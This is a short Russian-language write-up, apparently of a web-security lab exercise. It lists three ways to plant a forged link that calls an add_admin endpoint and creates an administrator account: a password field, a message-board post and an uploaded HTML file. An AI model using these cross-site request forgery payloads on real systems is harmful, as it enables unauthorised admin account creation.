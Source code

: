 ## Атака 1
Аккаунт нового пользователя создается с таким паролем <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>  a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User" 

## Атака 2

В Message Board можно отправить такое сообщение <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>   (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)


## Атака 3

B Upload PoC File можно добавить test.html с таким содержанием <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a> (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)
